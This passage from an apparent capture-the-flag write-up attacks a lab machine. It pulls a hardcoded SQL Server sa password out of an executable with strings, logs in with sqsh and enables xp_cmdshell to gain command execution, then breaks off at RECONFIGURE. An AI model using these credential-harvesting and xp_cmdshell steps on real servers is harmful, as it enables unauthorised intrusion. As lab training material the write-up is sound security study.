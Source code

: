 The next step is to see the printable character strings of .EXE file.

{% highlight zsh %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Tally/smb]─[root@Arthorias]─[0]─[3178]
╰─[:)] # strings tester.exe
!This program cannot be run in DOS mode.
Rich7J
~~~
~~~
SQLSTATE: 
Message: 
DRIVER={SQL Server};SERVER=TALLY, 1433;DATABASE=orcharddb;UID=sa;PWD=GWE3V65#6KFH93@4GWTG2G;
select * from Orchard_Users_UserPartRecord
~~~
~~~
{% endhighlight %}  

Ready, we have found a username and a password.   
And also with the previous information acquired, we know that these credentials apparently are from SQL Server.

## Getting shell #1

We identify with the previous credentials with *sqsh*.  
sqsh, is commandline SQL client for MS SQL and Sybase servers to connect to Sybase or Microsoft SQL servers.  
[Reference](https://sourceforge.net/projects/sqsh/)

{% highlight zsh %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Tally/smb]─[root@Arthorias]─[0]─[3178]
╰─[:)] # sqsh -S 10.10.10.59 -U sa
sqsh-2.1.7 Copyright (C) 1995-2001 Scott C. Gray
Portions Copyright (C) 2004-2010 Michael Peppler
This is free software with ABSOLUTELY NO WARRANTY
For more information type '\warranty'
Password: 
1>
{% endhighlight %}  

After authenticating, we must enable the *xp_cmdshell* so that we can get execution of commands on our victim machine.

{% highlight zsh %}
1> EXEC SP_CONFIGURE N'show advanced options', 1
2> go
Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
1> EXEC SP_CONFIGURE N'xp_cmdshell', 1
2> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
1> RECONFIGURE
2> go
{% endhighlight %}  

